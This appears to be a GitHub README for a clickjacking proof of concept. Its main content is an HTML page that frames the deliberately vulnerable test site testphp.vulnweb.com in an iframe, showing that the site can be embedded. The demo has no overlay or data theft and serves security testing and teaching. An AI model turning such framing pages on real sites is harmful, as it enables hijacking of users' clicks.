 # Clickjacking Vulnerability PoC

**Description:**
This repository hosts a professional Proof of Concept (PoC) showcasing the Clickjacking vulnerability in web applications. Clickjacking represents a significant security concern, allowing unauthorized manipulation of user interactions and data access.

  
```html
<html>
<title>Click Jacking</title>
<meta name="author" content="m14r41">
<head></head>
<body>
    <font color="white" size="30">
        <h2 style="font-weight: bold; color: black">Clickjacking Vulnerability Poc</h2>
        <p style="font-weight: bold; color: rgb(146, 83, 83)">This vulnerability presents a security risk, allowing for potential manipulation</br> of user interactions and unauthorized data access without user consent.</p>
        <iframe src="http://testphp.vulnweb.com/" width="70%" height="70%"></iframe>
</body>
</html>
```

---

![image](https://github.com/m14r41/Clickjacking-Poc/assets/95265573/42fd8f35-bd40-480e-87a1-fafc8392ab21)

**Features:**

- A clear title explaining the repository's purpose.
- A concise explanation of Clickjacking vulnerability.
- Inclusion of an `<iframe>` element demonstrating a common Clickjacking vector.

**By:** [m14r41](https://github.com/m14r41)
